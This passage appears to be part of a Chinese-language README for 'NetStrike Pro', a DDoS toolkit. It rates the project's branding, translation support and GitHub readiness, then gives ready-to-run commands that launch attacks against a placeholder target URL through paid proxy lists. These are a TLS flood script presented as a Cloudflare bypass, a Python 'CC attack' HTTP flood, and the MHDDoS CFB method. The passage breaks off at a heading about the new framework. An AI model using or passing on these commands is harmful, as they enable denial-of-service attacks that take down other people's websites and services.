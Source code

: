 ### 2. 专业化品牌 ⭐⭐⭐⭐⭐

- ✅ NetStrike Pro 国际化名称
- ✅ 现代 Rich 终端 UI
- ✅ 专业的视觉设计
- ✅ 完整的文档体系

### 3. 国际化支持 ⭐⭐⭐⭐⭐

- ✅ 完整的中英文支持
- ✅ YAML 配置化翻译
- ✅ 运行时语言切换
- ✅ 易于扩展新语言

### 4. 开发友好 ⭐⭐⭐⭐⭐

- ✅ 清晰的模块化架构
- ✅ 详细的代码注释
- ✅ 完整的文档系统
- ✅ 易于维护和扩展

### 5. GitHub 就绪 ⭐⭐⭐⭐⭐

- ✅ 所有必需文件完整
- ✅ 代码质量优秀
- ✅ 法律合规到位
- ✅ 可以立即部署

---

## 🚀 立即可用

### 使用原有工具（推荐）

```bash
cd NetStrike-Pro/legacy

# 刷新代理
./refresh_proxy.sh

# CloudFlare 绕过（最强）
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt

# Python CC 攻击
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# MHDDoS 专用
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180
```

### 体验新框架
